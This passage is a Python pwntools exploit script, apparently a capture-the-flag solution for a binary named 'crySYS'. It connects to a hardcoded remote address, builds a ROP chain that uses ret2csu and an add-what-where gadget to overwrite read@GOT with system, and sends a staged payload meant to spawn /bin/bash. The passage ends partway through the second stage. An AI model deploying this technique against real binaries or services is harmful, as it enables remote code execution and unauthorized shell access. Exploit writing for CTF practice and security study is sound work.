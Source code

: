 ```python
#!/usr/bin/env python

from pwn import *
from one_gadget import generate_one_gadget

# context.log_level = 'debug'
context.arch = 'amd64'

binary_path = "./crySYS"
libc_path = "./libc-2.27.so"
ld_path = "./ld-2.27.so"

# 0x00000000004004c8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
add_gadget = 0x00000000004004c8


def main():
    # Start the process/make the connection.
    # p = process([ld_path, binary_path], env={'LD_PRELOAD': libc_path})
    p = remote("152.96.7.6", 1337)

    # Calculate some useful values.
    libc_elf = ELF(libc_path)
    elf = ELF(binary_path)
    read_got = elf.got['read']
    libc_system = libc_elf.symbols['system']
    libc_read = libc_elf.symbols['read']
    log.info('system@libc: {}'.format(hex(libc_system)))
    log.info('read@libc: {}'.format(hex(libc_read)))
    system_offset = libc_system - libc_read
    log.info('system offset in libc from read: {}'.format(hex(system_offset)))
    system_offset = system_offset & 0xffffffffffffffff
    log.info('Twos complement of this offset: {}'.format(hex(system_offset)))

    # Determine a writable location.
    binsh_addr = elf.bss() + 0x10
    log.info('/bin/sh string Address: {}'.format(hex(binsh_addr)))

    # Construct the chain to use the add-what-where gadget and ret2csu to modify read@got to system.
    rop_chain = ROP(elf)
    # Read the address of read_got to the writable address we control to write the command.
    rop_chain.read(0, binsh_addr)
    # Setup the registers for the add-what-where. rbp has to account for the -0x3d
    rop_chain.ret2csu(edi=0xdeadbeef, rbx=system_offset, rbp=read_got + 0x3d)
    # Trigger the add-what-where to transform read@got to system.
    rop_chain.raw(add_gadget)
    # Fix up the aligning with a ret.
    rop_chain.raw(rop_chain.ret)
    # Call our system()
    rop_chain.read(binsh_addr)
    log.info(rop_chain.dump())

    # Send the first stage.
    log.info("Sending the first stage.")
    payload = flat({88: rop_chain.chain()}, filler=b'X')
    p.send(payload)

    # In the second stage, write the command we want to execute.
    # Using just /bin/sh alone seems to end in a segfault after the first command so let's get a
    # nicer shell.
    log.info("Sending the second stage.")
    command = b'/bin/sh -c "/bin/bash"\x00'
```